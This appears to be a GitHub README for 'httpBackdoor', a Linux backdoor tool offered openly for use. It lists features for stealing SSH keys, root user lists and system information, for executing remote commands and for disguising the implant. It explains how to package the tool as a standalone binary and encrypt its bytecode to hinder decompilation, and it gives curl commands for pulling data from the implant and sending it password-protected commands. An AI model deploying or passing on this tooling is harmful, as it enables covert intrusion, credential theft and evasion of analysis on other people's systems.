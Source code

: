 # httpBackdoor
Linux backdoor written with the HTTPRequestHandler library.

# features
- exfiltrate system information (SSH keys, root users, sys info, etc.)
- command execution (returns the output too)
- can be easily disguised
- lightweight

# how to run on a machine without python being installed
- `pip3 install pyinstaller`
- `pyinstaller --onefile httpBackdoor.py`
- the file in the `dist` directory is your binary that will run on the machine
- you can also use the pyinstaller `-key` argument to [encrypt the file](https://pyinstaller.readthedocs.io/en/stable/usage.html#encrypting-python-bytecode), making decompilation more difficult.

# usage
## basic data gathering
`curl --location --head 'IP:PORT' --header 'Content-Type: text/plain'`

## command execution
`curl --location --request POST 'IP:PORT' --header 'pwd: PASSWORD' --header 'Content-Type: text/plain' --data-raw 'COMMAND'`
